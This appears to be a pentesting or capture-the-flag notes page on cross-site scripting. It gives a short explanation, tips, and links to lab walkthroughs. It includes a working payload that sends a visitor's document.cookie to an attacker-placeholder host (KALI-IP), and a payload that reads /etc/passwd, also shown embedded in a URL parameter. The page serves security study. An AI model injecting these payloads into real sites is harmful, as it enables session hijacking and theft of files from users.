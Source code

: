 
Cross Site Scripting (XSS) is a type of security vulnerability commonly found in web applications. It occurs when an attacker is able to inject malicious scripts into a legitimate website or web application, which can then be executed by unsuspecting users. 

XSS attacks can be used to steal sensitive information, such as login credentials or personal data, from users who visit the compromised site. They can also be used to deface websites, redirect users to malicious sites, or perform other malicious activities.


# Guide

1. Remember it relies on an external user and therefor may be unreliable, this may take time or multiple login attempts.
2. The value which gets displayed and can be modified may be in a strange place, check the URL and request parameters.

# Walkthrough

1. [HTB: Holiday | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/09/11/htb-holiday.html)
2. [HTB: Bankrobber | 0xdf hacks stuff](https://0xdf.gitlab.io/2020/03/07/htb-bankrobber.html)

# Examples

## Stealing Cookies

```
<html>
<body>
<script>
var r = new XMLHttpRequest();
r.open("GET", "http://KALI-IP/" + document.cookie);
r.send();
</script>
</body>
</html>
```

Sending this HTML to the website which will display it will steal the cookie from any user who views it.

## Running Code

[Local File Read via XSS in Dynamically Generated PDF](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html

```
<script>
	x=new XMLHttpRequest;
	x.onload=function(){
		document.write(this.responseText)
	};
	x.open("GET","file:///etc/passwd");
	x.send();
</script>
```

`https://xyz.com/payments/downloadStatements?Id=b9bc3d&utrnumber=<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///etc/passwd");x.send();</script>&date=2017-08-11&settlement_type=all&advice_id=undefined`